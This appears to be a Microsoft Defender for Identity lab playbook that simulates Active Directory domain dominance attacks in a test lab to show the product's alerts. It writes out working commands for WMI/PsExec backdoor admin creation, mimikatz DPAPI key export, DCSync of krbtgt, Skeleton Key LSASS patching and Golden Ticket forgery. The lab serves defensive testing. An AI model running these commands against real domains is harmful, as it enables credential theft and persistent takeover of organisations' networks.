# Domain dominance playbook

The last lab in this four-part series for Microsoft Defender for Identity security alerts is a domain dominance playbook. The purpose of the Defender for Identity security alert lab is to illustrate **Defender for Identity**'s capabilities in identifying and detecting potential attacks against your network. The lab explains how to test against some of Defender for Identity's *discrete* detections using Defender for Identity's *signature*-based capabilities. The labs don't include Defender for Identity advanced machine-learning, user, or entity-based behavioral detections and alerts. Those types of detections and alerts aren't included in testing because they require a learning period, and real network traffic for up to 30 days. For more information about each lab in this series, see the [Defender for Identity security alert lab overview](playbook-lab-overview.md).

This playbook shows some of the domain dominance threat detections and security alerts services of Defender for Identity using simulated attacks from common, real-world, publicly available hacking and attack tools. The methods covered are typically used at this point in the cyber-attack kill chain to achieve persistent domain dominance.

In this lab, you'll simulate attempts to achieve persistent domain dominance in order to review each of Defender for Identity's detections for the following common methods:

> [!div class="checklist"]
>
> - Remote Code Execution
> - Data Protection API (DPAPI)
> - Malicious Replication
> - Service Creation
> - Skeleton Key
> - Golden Ticket

## Prerequisites

1. [A completed Defender for Identity security alert lab](playbook-setup-lab.md)
     - We recommend following the lab setup instructions as closely as possible. The closer your lab is to the suggested lab setup, the easier it will be to follow the Defender for Identity testing procedures.

2. [Completion of the lateral movement playbook](playbook-lateral-movement.md)

> [!WARNING]
> The third-party hacking tools in this lab are presented for research purposes only. Microsoft does **not** own these tools and Microsoft cannot and does not guarantee or warranty their behavior. They are subject to change without notice. These tools should be run in a test lab environment **only**.

## Domain Dominance

In the cyber-attack kill chain, during the phase of domain dominance, an attacker has already gained legitimate credentials to access your domain controller. Attacker access to your domain controller means all levels of damage to your network can be accomplished. Beside the immediate damage, attackers, especially sophisticated ones, like to place additional *insurance policies* into environments they've compromised. These attacks ensure even if an attacker's initial compromise and actions are discovered, they'll still have additional avenues of persistence in your domain, increasing their chances of long-term success.

### Remote Code Execution

Remote code execution is exactly what it sounds like. Attackers establish a way to remotely execute code against a resource, in this case, against a domain controller. We'll try using these common tools together to perform remote code execution and gain domain controller persistency and then see what Defender for Identity shows us.

- Windows Management Instrumentation (WMI)
- PsExec from SysInternals

Using WMI via the command line, try to create a process locally on the domain controller to create a user named "InsertedUser", with a password of: pa$$w0rd1.

1. Open the Command Line, running in context of *SamiraA* from the **VictimPC**, execute the following command:

   ```cmd
   wmic /node:ContosoDC process call create "net user /add InsertedUser pa$$w0rd1"
   ```

1. Now with the user created, add the user to the "Administrators" group on the domain controller:

   ```cmd
   PsExec.exe \\ContosoDC -accepteula net localgroup "Administrators" InsertedUser /add
   ```

    

1. Go to **Active Directory Users and Computers (ADUC)** on **ContosoDC** and find the **InsertedUser**.

1. Right-click on **Properties** and check membership.

    

Acting as an attacker, you've successfully created a new user in your lab by using WMI. You've also added the new user to the Administrators group by using PsExec. From a persistence perspective, another legitimate, independent credential was created on the domain controller. New credentials give an attacker persistent access to the domain controller in case the previous credential access gained was discovered and removed.

### Remote Code Execution Detection in Defender for Identity

Sign in to the Defender for Identity portal to check what, if anything, Defender for Identity detected from our last simulated attack:



Defender for Identity detected both the WMI and PsExec remote code executions.

Because of encryption on the WMI session, certain values such as the actual WMI methods or the result of the attack aren't visible. However, Defender for Identity's detection of these actions give us ideal information to take defensive action with.

VictimPC, the computer, should never be executing remote code against the Domain Controllers.

As Defender for Identity learns who is inserted into which Security Groups over time,  similar suspicious activities are identified as anomalous activity in the timeline. Since this lab was recently built and is still within the learning period, this activity won't display as an alert. Security group modification detection by Defender for Identity can be validated by checking the activity timeline. Defender for Identity also allows you to generate reports on all Security Group modifications, which can be emailed to you proactively.

Access the **Administrator** page in the Defender for Identity portal using the Search tool. The Defender for Identity detection of the user insertion is displayed in the Admin Group activity timeline.



### Data Protection API (DPAPI)

Data Protection Application Programming Interface (DPAPI) is used by Windows to securely protect passwords saved by browsers, encrypted files, and other sensitive data. Domain controllers hold a master key that can decrypt *all* secrets on domain-joined Windows machines.

Using **mimikatz**, we'll attempt to export the master key from the domain controller.

1. Execute the following command against the domain controller:

   ```cmd
   mimikatz.exe "privilege::debug" "lsadump::backupkeys /system:ContosoDC.contoso.azure /export" "exit"
   ```

    

1. Verify the master key file export occurred. Look in the directory from which you ran mimikatz.exe from to see the created .der, .pfx, .pvk, and .key files. Copy the legacy key from the command prompt.

As attackers, we now have the key to decrypt any DPAPI-encrypted file/sensitive data from *any* machine in the entire Forest.

### DPAPI Detection in Defender for Identity

Using the Defender for Identity portal, let's verify that Defender for Identity successfully detected our DPAPI attack:



### Malicious Replication

Malicious replication allows an attacker to replicate user information using Domain Admin (or equivalent) credentials. Malicious replication essentially allows an attacker to remotely harvest a credential. Obviously, the most critical account to attempt to harvest is "krbtgt" as it's the master key used to sign all Kerberos tickets.

The two common hacking tool sets that allow attackers to attempt malicious replication are **Mimikatz** and Core Security's **Impacket**.

#### Mimikatz lsadump::dcsync

From the **VictimPC**, in context of **SamirA**, execute the following Mimikatz command:

```cmd
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

We've replicated the "krbtgt" account information to: `c:\\temp\\ContosoDC_krbtgt-export.txt`



#### Malicious Replication Detection in Defender for Identity

Using the Defender for Identity portal, verify the SOC is now aware of the malicious replication we simulated from VictimPC.



### Skeleton Key

Another domain dominance method attackers use is known as **Skeleton Key**. Using a Skeleton Key the attacker creates, the attacker can masquerade *as any user* at *any time*. In a Skeleton Key attack, every user can still sign in with their normal password, but each of their accounts is also given a master password. The new master password or Skeleton Key gives anyone who knows it, open access to the account. A Skeleton Key attack is achieved by patching the LSASS.exe process on the domain controller, forcing users to authenticate via a downgraded encryption type.

Let's use a Skeleton Key to see how this type of attack works:

1. Move **mimikatz** to **ContosoDC** using the **SamirA** credentials we acquired before. Make sure to push the right architecture of **mimikatz.exe** based on the architecture type of the DC (64-bit vs 32-bit). From the **mimikatz** folder, execute:

   ```cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

1. With **mimikatz** now staged on the DC, remotely execute it via PsExec:

   ```cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

1. You successfully patched the LSASS process on **ContosoDC**.

    

### Exploiting the Skeleton Key Patched LSASS

On **VictimPC**, open up a cmd prompt (in the context of **JeffL**), execute the following to try to become context of RonHD.

```cmd
runas /user:ronhd@contoso.azure "notepad"
```

When prompted, use the wrong password on purpose. This action proves that the account *still* has a password after executing the attack.



But Skeleton Key adds an additional password to each account. Do the "runas" command again but this time use "mimikatz" as the password.

```cmd
runas /user:ronhd@contoso.azure "notepad"
```

This command creates a new process, *notepad*, running in the context of RonHD. **Skeleton Key can be done for *any* account, including service accounts and computer accounts.**

> [!IMPORTANT]
> It is important that you restart ContosoDC after you execute the Skeleton Key attack. Without doing so, the LSASS.exe process on ContosoDC will be patched and modified, downgrading every authentication request to RC4.

### Skeleton Key attack Detection in Defender for Identity

What did Defender for Identity detect and report while all of this was happening?



Defender for Identity successfully detected the suspicious pre-authentication encryption method used for this user.

### Golden Ticket - Existing User

After stealing the "Golden Ticket", ("krbtgt" account explained [here via Malicious Replication](#malicious-replication), an attacker can sign tickets *as if they're the domain controller*. **Mimikatz**, the Domain SID, and the stolen "krbtgt" account are all required to accomplish this attack. Not only can we generate tickets for a user, we can generate tickets for users who don't even exist.

1. As JeffL, run the following command on **VictimPC** to acquire the domain SID:

   ```cmd
   whoami /user
   ```

    

1. Identify and copy the Domain SID highlighted in the previous screenshot.

1. Using **mimikatz**, take the copied Domain SID, along with the stolen "krbtgt" user's NTLM hash to generate the TGT. Insert the following text into a cmd.exe as JeffL:

   ```cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

    

   The `/ptt` part of the command allowed us to immediately pass the generated ticket into memory.

1. Let's make sure the credential is in memory.  Execute `klist` in the console.

    

1. Acting as an attacker, execute the following Pass-the-Ticket command to use it against the DC:

   ```cmd
   dir \\ContosoDC\c$
   ```

   Success! You generated a **fake** Golden Ticket for SamiraA.

    

Why did it work? The Golden Ticket Attack works because the ticket generated was properly signed with the 'KRBTGT' key we harvested earlier. This ticket allows us, as the attacker, to gain access to ContosoDC and add ourselves to any Security Group that we wish to use.

#### Golden Ticket- Existing User attack detection

Defender for Identity uses multiple methods to detect suspected attacks of this type. In this exact scenario, Defender for Identity detected the encryption downgrade of the fake ticket.



> [!IMPORTANT]
>Reminder. As long as the KRBTGT harvested by an attacker remains valid within an environment, the tickets generated with it also remain valid. In this case, the attacker achieves persistent domain dominance until the [KRBTGT is reset, twice](/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password).

## Next steps

- [Microsoft Defender for Identity Security Alerts](alerts-overview.md)
- [Microsoft Defender for Identity Lateral Movement Paths (LMPs)](understand-lateral-movement-paths.md)
- [Check out the Defender for Identity forum!](<https://aka.ms/MDIcommunity>)
